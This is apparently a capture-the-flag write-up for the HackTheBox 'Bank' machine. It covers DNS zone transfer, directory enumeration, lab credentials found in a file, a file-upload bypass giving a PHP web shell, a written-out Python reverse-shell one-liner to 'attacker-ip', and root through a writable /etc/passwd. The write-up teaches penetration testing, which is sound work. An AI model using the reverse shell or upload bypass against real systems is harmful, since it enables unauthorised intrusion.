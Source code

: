 ```yaml
---
title: "Bank"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["nse", "web"]
---
```


## infocard

![infocard](media/bankinfocard.png)

Bank is a medium-difficulty machine that involves domain enumeration, bypassing file upload restrictions to gain shell access, and escalating privileges by modifying a writable system file. This writeup details each step taken to fully compromise the machine.

## Enumeration

We begin with an Nmap scan to identify open ports and services:

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-04 01:10 EST
Nmap scan report for 10.10.10.29
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```
The scan reveals three open ports:
- **Port 22**: SSH (OpenSSH 6.6.1p1)
- **Port 53**: DNS (ISC BIND 9.9.5-3ubuntu0.14)
- **Port 80**: HTTP (Apache httpd 2.4.7)

The HTTP service displays the default Apache landing page, indicating that further enumeration is required.

### DNS Enumeration

Since **port 53 (DNS)** is open, we attempt a **zone transfer** using `dig`:

![dig](media/bankdig.png)

This reveals several subdomains:

- **bank.htb**
- **[www.bank.htb](http://www.bank.htb/)**
- **chris.bank.htb**
- **ns.bank.htb**

Adding these subdomains to the `/etc/hosts` file allows us to explore them further. While most subdomains redirect to the default Apache page, `bank.htb` leads to a login page.

![login](media/banklogin.png)

After testing default credentials and SQL injection, no vulnerabilities are found. 

### Directory Enumeration

Using `ffuf`, we perform directory enumeration on `bank.htb`:

![dirscan](media/bankdirscan.png)

This uncovers a directory named `balance-transfer`, which contains `.acc` files. One of these files, smaller in size, contains plaintext credentials for the user `chris`:

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

## Gaining shell

### Exploiting the File Upload Feature

Using the credentials `chris:!##HTBB4nkP4ssw0rd!##`, we log in and discover a ticket system (`support.php`) that allows file uploads. Attempting to upload a PHP shell fails due to MIME type restrictions. However, by crafting a file with a PNG MIME type and PHP content, we successfully upload the file. Despite this, the file is not executed due to the `.png` extension.

![fileupload](media/bankfileupload.png)

Upon inspecting the source code, we find a debug comment:

`<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->`

This indicates that files with the `.htb` extension are executed as PHP. We create a payload with the `.htb` extension and upload it. Accessing `bank.htb/uploads/test.htb` provides a web shell as the `www-data` user.

![wwwshell](media/bankwwwshell.png)

### Establishing a Reverse Shell

Using the web shell, we establish a reverse shell to our attacker machine:

```python3
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker-ip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The user flag is located in Chris's home directory:

![user](media/bankuser.png)

## Privilege Escalation

### Exploiting a Writable `/etc/passwd` File

During enumeration, we discover that the `/etc/passwd` file is writable:

![passwd](media/bankpasswd.png)

We add a new user with root privileges by appending the following line to `/etc/passwd`:

![root](media/bankroot.png)

## Conclusion

The Bank machine emphasizes the significance of secure file upload handling and proper input validation. By exploiting a file upload vulnerability and misconfigured file extension handling, we gained a foothold on the system. Privilege escalation was achieved through writable sensitive files, demonstrating the importance of enforcing least privilege and monitoring for misconfigurations to enhance security.